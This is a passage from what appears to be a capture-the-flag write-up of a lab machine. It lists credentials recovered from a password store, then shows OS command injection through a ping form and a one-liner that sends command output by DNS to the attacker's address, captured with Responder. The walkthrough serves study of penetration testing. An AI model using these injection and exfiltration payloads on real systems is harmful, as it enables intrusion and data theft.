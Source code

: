 It asked password but the password was easily guessable "password".<br>
Seeing each entry of pbox.exe, we can gather some interesting "credentials".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2019-03-22/2019-03-20-13-40-45.png)

List:
{% highlight shell %}
root@kali:~# cat strings.txt 
7oth3B@tC4v3!
alan@ethereal.co / P@ssword1!
alan2 / leaning!
watch3r
alan / Ex3cutiv3Backups
R3lea5eR3@dy#
Password8
!C414m17y57r1k3s4g41n!
alan53 / Ch3ck1ToU7
{%endhighlight %}

Try each patterns and we can find following credential to login ethereal.htb:8080
{% highlight shell %}
alan:!C414m17y57r1k3s4g41n!
{%endhighlight %}
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2019-03-22/2019-03-20-13-42-22.png)

Sounds like "ping" command is executed internally.<br>
Then, try OS command injection by putting some windows OS command in the textbox and submit.<br>
We can easily figure out this command is available.
{% highlight shell %}
127.0.0.1 & ping 10.10.14.23
{%endhighlight %}

We can confirm the result by tcpdump
{% highlight shell %}
root@kali:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:51:03.070436 IP ethereal.htb > kali: ICMP echo request, id 1, seq 17, length 40
18:51:03.070476 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 17, length 40
18:51:04.222480 IP ethereal.htb > kali: ICMP echo request, id 1, seq 18, length 40
18:51:04.222522 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 18, length 40
18:51:05.231877 IP ethereal.htb > kali: ICMP echo request, id 1, seq 19, length 40
18:51:05.231910 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 19, length 40
18:51:06.875927 IP ethereal.htb > kali: ICMP echo request, id 1, seq 20, length 40
18:51:06.875966 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 20, length 40
{%endhighlight %}

To send some information, we can enter following command and to receive it, responder is available.
{% highlight shell %}
127.0.0.1 & nslookup test 10.10.14.23
{%endhighlight %}

{% highlight shell %}
root@kali:~# responder -I tun0

~~~

[+] Listening for events...
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .test
{%endhighlight %}

We can try to execute os command and its output by following command.
{% highlight shell %}
# 10.10.14.23 & for /f %i in ('whoami') do nslookup %i 10.10.14.23
[+] Listening for events...
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .etherealalan
{%endhighlight %}
~~~